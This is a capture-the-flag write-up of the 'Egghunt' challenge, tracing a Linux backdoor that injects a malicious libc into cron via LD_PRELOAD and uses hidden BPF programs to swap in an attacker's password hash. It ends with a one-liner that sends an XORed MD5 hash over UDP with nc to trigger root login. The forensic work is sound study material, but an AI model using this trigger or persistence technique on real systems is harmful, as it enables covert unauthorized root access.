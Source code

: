 ```yaml
---
title: "Egghunt"
date: 2021-02-04T19:50:09-06:00
tags: ["AdversaryQuest", "CTFs"]
---
```


#### Challenge Description:

> After moving laterally, PROTECTIVE PENGUIN compromised a number of additional systems and gained persistence. We have identified another host in the DMZ that we believe was backdoored by the adversary and is used to regain access.

> Please download a virtual machine image of that host and identify the backdoor. Validate your findings in our test environment on egghunt.challenges.adversary.zone.

#### Write-Up:

This was hands-down my favorite challenge. I knew nothing about BPF before starting and I learned a lot. For this challenge, we have to find a backdoor on a linux host and reverse engineer it. 

We're given a `.qcow2` QEMU virtual machine image with a shell script `run.sh` that runs the image. `run.sh` forwards the TCP port 4422 for ssh access and the UDP port 1337, presumably for the backdoor. But when we login and look for listening ports on the machine, strangely, UDP port 1337 is not listed:

```
root@egghunt:~# netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:4422            0.0.0.0:*               LISTEN      379/sshd: /usr/sbin 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      365/systemd-resolve 
tcp6       0      0 :::4422                 :::*                    LISTEN      379/sshd: /usr/sbin 
udp        0      0 127.0.0.53:53           0.0.0.0:*                           365/systemd-resolve 
udp        0      0 0.0.0.0:68              0.0.0.0:*                           587/dhclient
```

I looked around a bit with `ls -la` to see if there was anything suspicious or out of place. Almost immediately I came across a very suspsicious file in `/dev/shm`. `shm` stands for shared memory - all files in `/dev/shm` are stored in memory and thus erased across reboots so it is usually empty:

```
root@egghunt:~# ls /dev/shm/
x86_64-linux-gnu
root@egghunt:~# ls /dev/shm/x86_64-linux-gnu/
libc.so.7
```

Very suspicious, a libc shared object file not in `/lib`. I wonder what program is using this (probably) malicious `libc.so.7`? We can use `ldd` to search for binaries that are linked to this file:

```
root@egghunt:~# ldd /bin/* /usr/bin/* /sbin/* /usr/sbin/* 2>/dev/null | grep "libc.so.7"
root@egghunt:~# 
```

But I guess it makes sense there are none - `/dev/shm` is ephemeral and recompiling/relinking a binary pointing to a temporary location wouldn't make much sense. It makes more sense to use an environment variable like `LD_LIBRARY_PATH` upon running a binary to inject a shared object. So let's check `/proc` to see which running processes might specify this malicious `libc` in an environment variable.

```
root@egghunt:~# grep "libc.so.7" /proc/*/environ 
Binary file /proc/974/environ matches
root@egghunt:~# cat /proc/974/comm 
cron
root@egghunt:~# cat /proc/974/environ 
LD_PRELOAD=/dev/shm/x86_64-linux-gnu/libc.so.7SHELL=/bin/bashPWD=/root...
```

So it looks like `cron` has a malicious libc injected using `LD_PRELOAD`. Taking a look at this `libc.so.7` and we find something very interesting right at the beginning of one of the `entry.init` functions:

![entry function unsets LD_PRELOAD and looks for __DBG__ environment variable](images/penguin-egg-entry.png)

As soon as its loaded, our malicious `libc.so.7` unsets the environment variables `LD_PRELOAD` and searches for the environment variable `__DBG__`. I bet DBG stands for debug - lets rerun `cron` but with `__DBG__` set and see what happens.

```
root@egghunt:~# kill 974
root@egghunt:~# LD_PRELOAD=/dev/shm/x86_64-linux-gnu/libc.so.7 __DBG__= cron
libbpf: loading object 'implant_bpf' from buffer
libbpf: elf: section(2) tracepoint/net/netif_receive_skb, size 2344, link 0, flags 6, type=1
libbpf: sec 'tracepoint/net/netif_receive_skb': found program 'kprobe_netif_receive_skb' at insn offset 0 (0 bytes), code size 293 insns (2344 bytes)
libbpf: elf: section(3) uprobe/getspnam_r_entry, size 336, link 0, flags 6, type=1
libbpf: sec 'uprobe/getspnam_r_entry': found program 'getspnam_r_entry' at insn offset 0 (0 bytes), code size 42 insns (336 bytes)
libbpf: elf: section(4) uprobe/getspnam_r_exit, size 312, link 0, flags 6, type=1
libbpf: sec 'uprobe/getspnam_r_exit': found program 'getspnam_r_exit' at insn offset 0 (0 bytes), code size 39 insns (312 bytes)
libbpf: elf: section(5) license, size 4, link 0, flags 3, type=1
libbpf: license of implant_bpf is GPL
...
```

Looks like out backdoor implant is liscensed under the GPL

![thumbs up gif](images/thumbs-up.gif)

Reading the debug output, it looks like our implant uses Berkley Packet Filter (BPF). [Wikipedia](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter) defines it rather blandly as a tool to analyze network traffic, but coming from [Brendan Gregg](http://www.brendangregg.com/blog/2019-12-02/bpf-a-new-type-of-software.html), who  wrote the book on BPF,

> BPF programs ... are not processes or kernel modules, and don't appear in traditional observability tools. They are a new type of software, and make a fundamental change to a 50-year old kernel model by introducing a new interface for applications to make kernel requests, alongside syscalls.

> BPF originally stood for Berkeley Packet Filter, but has been extended in Linux to become a generic kernel execution engine, capable of running a new type of user-defined and kernel-mode applications.

So it makes sense that we wouldn't find any program listening on port 1337 - our backdoor is a BPF program which doesn't show up on "traditional observability tools". We have to learn how to speak BPF.

The most useful tool to interact with BPF programs is, appropriately, `bpftool`. Listing installed BPF programs:

```
root@egghunt:~# bpftool prog list
3: cgroup_skb  tag 6deef7357e7b4530  gpl

...

16: tracepoint  name kprobe_netif_re  tag e0d014d973f44213  gpl
	loaded_at 2021-01-14T12:15:17+0000  uid 0
	xlated 2344B  jited 1544B  memlock 4096B  map_ids 4
	btf_id 5
17: kprobe  name getspnam_r_entr  tag acab388c8f8ef0f9  gpl
	loaded_at 2021-01-14T12:15:17+0000  uid 0
	xlated 336B  jited 223B  memlock 4096B  map_ids 3
	btf_id 5
18: kprobe  name getspnam_r_exit  tag ceeabb4ac5b9ed45  gpl
	loaded_at 2021-01-14T12:15:17+0000  uid 0
	xlated 328B  jited 209B  memlock 4096B  map_ids 3,4
	btf_id 5
```

The malicious `libc.so.7` installs three BPF programs: `kprobe_netif_receive_skb`, `getspnam_r_entry`, `getspnam_r_exit`. Judging by the names of these programs, one runs at [netif_receive_skb](https://www.kernel.org/doc/html/latest/networking/kapi.html?highlight=netif#c.netif_receive_skb), the "main receieve data processing function" for linux networking. The other two run at the beginning and end of each call to [getspnam_r](https://man7.org/linux/man-pages/man3/getspent.3.html), a function to check the `/etc/shadow` file for linux password hashes.

BPF programs share data using maps. Above, we can see our `kprobe_netif_re` BPF program uses map id 4, `getspnam_r_entr` uses map id 3, and `getspnam_r_exit` uses map id 3 and 4. We can inspect these maps using `bpftool`: 

```
root@egghunt:~# bpftool map list 
3: hash  name args  flags 0x0
	key 8B  value 8B  max_entries 10  memlock 4096B
	btf_id 5
4: array  name implant_.bss  flags 0x400
	key 4B  value 36B  max_entries 1  memlock 8192B
	btf_id 5
root@egghunt:~# bpftool map dump id 3 
[]
root@egghunt:~# bpftool map dump id 4 
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": false,
                        "hash": ""
                    }
                }
            ]
        }
    }
]
```

So presumably the `netif_receive_skb` program checks for a specific network packet that may contain a password hash and stores it in the "backdoor" map. And the `getspnam` program interupts normal logins and uses this password hash instead.

Lets take a look at the `kprobe_netif_re` to see what packet we need to send to enable the backdoor. We can dump the BPF program using `bpftool prog dump` and even better, it has support for outputing a dot file graph to get a visual of the programs flow control. [Here](images/penguin-egg-dot.png) is the full program's graph. The instruction set is a bit strange but [this documentation](https://docs.cilium.io/en/latest/bpf/) was a great help. 

`netif_receive_skb` is passed the raw packet data as an sk_buff, the common data structure for all linux networking. I spent way too long trying to understand the first few dozen instructions and the structure of sk_buffs but got almost nowhere. The breakthrough came by cheating a bit, and looking for where the program filters for UDP packets on port 1337:

![bpf code that checks the udp header](images/penguin-egg-udp-header.png)

Do you see it? (74) checks if two bytes are `0x3905`, which converted to little-endian is 1337. So the above code [reads](https://github.com/iovisor/bpf-docs/blob/master/bpf_helpers.rst) the UDP header and checks if the destination port is 1337 and length is 42. So minus the header, our packet should be 34 bytes long.

![bpf code that reads the packet](images/penguin-egg-hash-code.png)

Next we read the 34 bytes of our UDP packet and check that the first three bytes are `0x66`, `0x73`, and `0x66`. Then all following bytes are XORed with 66. If we XOR the first 3 bytes with 66 we get the ASCII `$1$`, the start of an MD5 hash. So to trigger the backdoor, we have to send a UDP packet with an MD5 sum XORed with 66. Then we can login as root with our password. In an ugly one-liner:

```
$ python -c "print(bytes(map(lambda x: x^66, \
  	 b\"$(openssl passwd -1 pwned)\")).decode('ascii'), end='')" \
  	 | nc -u localhost 1337
```
